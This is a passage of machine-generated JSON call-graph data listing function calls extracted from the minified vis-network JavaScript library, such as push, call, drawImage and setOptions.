"relation": "calls", "source": "static/js/vis-network.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "check"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkFields"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSuggestion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "findInOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "findInOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "print"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "findInOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "levenshteinDistance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_fillMipMap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_fixImageCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_redrawWithImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_tryloadBrokenUrl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isExtensible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isExtensible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getConstructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setStrong"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "dispatchException"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abrupt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_invoke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isGeneratorFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "complete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "complete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_flushIfNeeded"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_flushIfNeeded"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_addItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_addItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_addItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_filterFields"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_filterFields"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": 